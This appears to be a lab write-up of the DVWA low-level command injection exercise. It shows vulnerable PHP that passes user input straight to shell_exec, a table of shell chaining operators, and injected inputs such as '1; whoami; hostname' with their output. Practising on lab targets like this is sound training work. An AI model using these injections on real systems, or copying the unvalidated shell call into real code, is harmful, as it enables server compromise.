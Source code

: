 ## Command Injection Low


The objective is to find the user and the hostname of the server behind the application


We look at the source code http://127.0.0.1/vulnerabilities/view_source.php?id=exec&security=low 



```php


<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>

```

Since it does nto validate user input , we can just input a random integer or character instead of an ip address 

using the operators 


| Name	| operators 	| Description |
| --- | --- | --- |
| Ampersand  	| &	| Dictates the shell to execute the linux command in the background |
| Semicolon 	| ;	| execute command in a defined , sequential order |
| Or	| ||	| will execute the command that follows if the preceding command fails (returns an exit code of 0 ) Like a logical or gate |
| Pipe	| |	| Directs the output of the preceding command as the input to the succeeding command |
| AND	| && 	| will execute commands only if the preceding command was successfully executed |
| Will execute all the commands up until bad_command |
| NOT	| !	| Does not perform an operation |
| Precedence	| (..)	| The commands following the AND and OR operators depend on the exit code of the preceding command. These operators are binary and only evaluate the two commands that come before and after them |
| Set groups and precedence to ensure that the execution sequence meets your expectations |
| Combination 	| {..}	| Group commands: Will be executed depending upon the exit code of the first command |
| Concatenation or Escape	| \	| Two Functions: Either use it to conctenate two commands or as an escape character when working with  strings in shell |
| Redirection 	| >, >> , < 	| Redirects the output or the inut to a file by re-writting or appending to the file |

|


We can start trying the operands 

```Bash
1; echo 'success'
``` 

Returns back the result of ping 1 and the message echo 

so we can run 

```Bash
1; whoami; hostname
```

and the result is : 

```Bash
PING 1 (0.0.0.1): 56 data bytes
--- 1 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss

www-data
7ee3c931e984
```


Other operands that worked : 

```Bash

1 | whoami; hostname;

```